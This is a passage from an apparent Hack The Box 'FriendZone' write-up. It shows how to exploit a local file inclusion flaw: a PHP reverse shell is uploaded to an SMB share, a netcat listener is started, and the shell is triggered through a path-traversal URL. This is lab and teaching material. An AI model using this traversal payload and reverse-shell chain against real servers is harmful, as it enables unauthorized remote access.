 This is a **LFI**(**L**ocale **F**ile **I**nclusion) vulnerability!

___

## Assembling pieces

So far, we noticed that:

- We can write files in `Development` shared directory. (See [smb](#smb-ports-139--445) chapter) 
- We can read php pages from `https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=<PHP PAGE>`.

### reverse shell

Let's try to upload a [tiny PHP reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc):

![smb put shell.php](/assets/img/htb/machines/linux/easy/friendzone/smb-put.png)

Run a listener on our machine:

{% highlight bash %}
$ nc -lnvp 1234
{% endhighlight %}

Then open it from [https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=../../../../../../../../../../../etc/Development/shell](https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=../../../../../../../../../../../etc/Development/shell) 

BOUM!

![reverse-shell](/assets/img/htb/machines/linux/easy/friendzone/reverse-shell.png)
___
